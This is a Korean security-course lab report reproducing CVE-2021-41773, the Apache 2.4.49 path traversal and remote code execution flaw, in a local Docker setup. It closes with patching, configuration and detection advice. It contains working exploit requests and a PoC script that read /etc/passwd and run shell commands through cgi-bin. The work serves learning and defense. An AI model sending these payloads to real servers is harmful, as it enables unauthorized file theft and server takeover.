

# CVE-2021-41773

> 작성자: 화이트햇 스쿨 14반 / 김무근
> 대상: Apache HTTP Server 2.4.49 — 경로 탐색 & 원격 코드 실행
> 환경: Docker Compose 하나로 구성했습니다.

<br/>

## 1. 취약점 요약

Apache HTTP Server 2.4.49 딱 한 버전에서만 나는 취약점입니다.

- **CVE 번호**: CVE-2021-41773
- **영향 버전**: Apache HTTP Server 2.4.49 (이 버전만 해당됩니다)
- **종류**: 경로 탐색(Path Traversal, CWE-22) → 조건이 맞으면 원격 코드 실행까지 됩니다.
- **원인**: 2.4.49에서 새로 바뀐 URL 경로 처리 코드에 버그가 있어서, %2e(= .)로 인코딩한 ..을 제대로 막지 못합니다. 그래서 Alias로 연결된 경로를 통해 웹 폴더 밖의 파일까지 접근할 수 있게 됩니다.
- **할 수 있는 것**
  - 웹 폴더 밖 파일 읽기 (/etc/passwd 같은 시스템 파일)
  - mod_cgi가 켜져 있으면 /bin/sh를 불러서 원격 명령 실행까지 됩니다.

## + Risk Score(CVSS 3.1)

| 기준 | 값 | 이유 |
|---|---|---|
| 원격 악용 | Network | 인터넷에서 HTTP 요청만으로 공격됩니다. |
| 공격 난이도 | Low | 요청 한 번이면 성공합니다. |
| 인증 필요 | None | 로그인이 필요 없습니다. |
| 사용자 개입 | None | 피해자가 클릭할 필요가 없습니다. |
| 영향 | High | 파일 유출 + 서버 장악까지 됩니다. |

- **공식 점수: CVSS 3.1 = 9.8 (Critical)** / CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
- 로그인도 필요 없고, 원격에서, 요청 한 번으로 서버를 장악할 수 있어서 위험도가 최상위입니다.

<br/>

## 2. 환경 구성

Docker Compose 파일 하나로 Apache 2.4.49 컨테이너를 띄웁니다. 
외부 이미지 안 쓰고 공식 httpd:2.4.49 이미지에 제 설정 파일(httpd.conf)만 넣어줬습니다.

- 호스트 8080 포트 → 컨테이너 80 포트로 연결했습니다.
- 폴더 구조

```
Apache/CVE-2021-41773/
├── docker-compose.yml   # 컨테이너 정의
├── httpd.conf           # 취약 조건을 넣은 Apache 설정
├── poc.sh               # 공격 스크립트
├── 1.png                # 실행 결과 스크린샷 (poc.sh 실행)
├── 2.png                # 실행 결과 스크린샷 (개별 명령어)
└── README.md            # 이 보고서
```

- docker-compose.yml

```yaml
services:
  apache:
    image: httpd:2.4.49
    container_name: cve-2021-41773
    ports:
      - "8080:80"
    volumes:
      - ./httpd.conf:/usr/local/apache2/conf/httpd.conf:ro
    restart: unless-stopped
```

<br/>

## 3. 취약 조건

이 취약점은 아래 3가지가 다 맞아야 터지는데, 제 환경은 이걸 그대로 맞춰놨습니다.

1. Apache 버전이 딱 2.4.49여야 합니다.
(2.4.50은 다른 CVE(CVE-2021-42013)이고, 2.4.51에서 완전히 고쳐졌습니다.)
2. 웹 폴더 밖 접근이 허용돼 있어야 파일 읽기가 됩니다.
   - httpd.conf에서 최상위 디렉터리 설정(Directory /)을 기본값 Require all denied → Require all granted로 바꿔줬습니다. 파일 읽기(LFI)를 성립시키려고 열어준 부분입니다.
3. CGI 모듈이 켜져 있어야 원격 코드 실행까지 됩니다.
   - 기본으로 주석 처리돼 있던 mod_cgid를 켜줬습니다.

<br/>

## 4. 재현 절차

Docker / Docker Compose만 있으면 됩니다.

```bash
# 1) 환경 켜기
docker compose up -d

# 2) 정상 동작 확인 (200이 나온다면 정상입니다.)
curl -s -o /dev/null -w "%{http_code}\n" http://localhost:8080/

# 3) 파일 읽기 — 웹 폴더 밖 /etc/passwd 읽기
curl -s --path-as-is "http://localhost:8080/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"

# 4) 원격 코드 실행 — id / uname / hostname
curl -s --path-as-is "http://localhost:8080/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh" \
     --data "echo Content-Type: text/plain; echo; id; uname -a; hostname"

# 5) 끄기
docker compose down
```

스크립트로 한 번에 하려면:

```bash
bash poc.sh
```

<br/>

## 5. PoC 코드

poc.sh:

```bash
#!/usr/bin/env bash
# CVE-2021-41773 PoC : Apache HTTP Server 2.4.49 경로 탐색 & 원격 코드 실행 취약점 입니다.
# 사용법: bash poc.sh   (docker compose로 localhost:8080 에 띄운 상태에서 실행해줍니다.)
TARGET="http://localhost:8080"

# 먼저 경로 탐색으로,'.%2e' 가 '..' 로 디코딩되는 버그로 웹 폴더를 탈출해 /etc/passwd 읽습니다.
curl -s --path-as-is "$TARGET/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"

# 두번째로 원격 코드 실행(RCE)해서, 같은 버그로 cgi-bin 을 탈출해 /bin/sh 실행하면 → POST 본문이 명령으로 실행됩니다.
curl -s --path-as-is "$TARGET/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh" \
     --data "echo Content-Type: text/plain; echo; id; uname -a; hostname"
```

<br/>

## 6. 실행 결과

WSL2(Ubuntu) + Docker 환경에서 재현했습니다.

1. docker compose up 으로 환경을 띄운 뒤 poc.sh 를 실행한 결과



2. 개별 명령어(curl)로 하나씩 실행한 결과


- 파일 읽기(LFI): /etc/passwd 내용이 그대로 나왔습니다. 웹 폴더 밖 파일 읽기 성공입니다. (root, daemon 같은 계정이 보입니다.)
- 원격 코드 실행(RCE): uid=1(daemon), 커널 정보(uname -a), 호스트명이 나왔습니다. 명령이 실제로 실행된 거라 RCE 성공입니다. (실행 계정은 daemon)

<br/>

## 7. 대응 방안

1. **버전 올리기 (제일 중요)**: Apache를 2.4.51 이상으로 올립니다. (2.4.50은 우회가 되어서 꼭 2.4.51 이상으로 올려야 합니다!)
2. **설정 고치기**
   - 최상위 디렉터리 설정(Directory /)은 기본값 Require all denied를 그대로 둡니다. (전부 허용하면 안 됩니다.)
   - 안 쓰는 mod_cgi/mod_cgid는 끄고, Alias/ScriptAlias 노출을 줄입니다.
3. **추가 방어**
   - WAF나 프록시에서 %2e, .., .%2e/ 같은 패턴을 막습니다.
   - 웹 서버를 최소 권한 계정으로 돌리고, 컨테이너는 필요 없는 파일을 지워서 RCE 피해를 줄입니다.
4. **탐지**
   - 로그에서 /%2e, .%2e/, cgi-bin으로 가는 이상한 POST 요청을 감시합니다.

<br/>

## + 참고 자료

- NVD: https://nvd.nist.gov/vuln/detail/CVE-2021-41773
- Apache 2.4 보안 공지: https://httpd.apache.org/security/vulnerabilities_24.html
